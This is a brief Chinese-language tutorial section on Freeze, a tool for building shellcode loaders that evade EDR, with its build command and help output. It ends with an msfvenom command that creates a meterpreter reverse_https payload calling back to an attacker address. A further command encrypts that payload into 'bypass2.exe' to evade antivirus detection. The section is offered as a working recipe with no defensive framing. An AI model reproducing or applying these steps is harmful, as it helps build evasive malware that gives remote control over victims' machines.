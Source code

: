 

### 3.2 Freeze

Freeze是一个Payload创建工具，用于规避EDR安全控制，以隐蔽的方式执行shellcode。

项目地址：https://github.com/optiv/Freeze

```
# go build Freeze.go
```

![image-20230123165836695](../../images//image-20230123165836695.png)

或者Freeze帮助

```
./Freeze -h
Usage of ./Freeze:
  -I string
    	Path to the raw 64-bit shellcode.
  -O string
    	Name of output file (e.g. loader.exe or loader.dll). Depending on what file extension defined will determine if Freeze makes a dll or exe.
  -console
    	Only for Binary Payloads - Generates verbose console information when the payload is executed. This will disable the hidden window feature.
  -encrypt
    	Encrypts the shellcode using AES 256 encryption
  -export string
    	For DLL Loaders Only - Specify a specific Export function for a loader to have.
  -process string
    	The name of process to spawn. This process has to exist in C:\Windows\System32\. Example 'notepad.exe' (default "notepad.exe")
  -sandbox
    	Enables sandbox evasion by checking:
    		Is Endpoint joined to a domain?
    		Does the Endpoint have more than 2 CPUs?
    		Does the Endpoint have more than 4 gigs of RAM?
  -sha256
    	Provides the SHA256 value of the loaders (This is useful for tracking)
```

生成msf的raw文件并进行免杀处理。

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.0.2 LPORT=4444 -f raw > shell64.raw
./Freeze -I shell64.raw -encrypt -O bypass2.exe
```
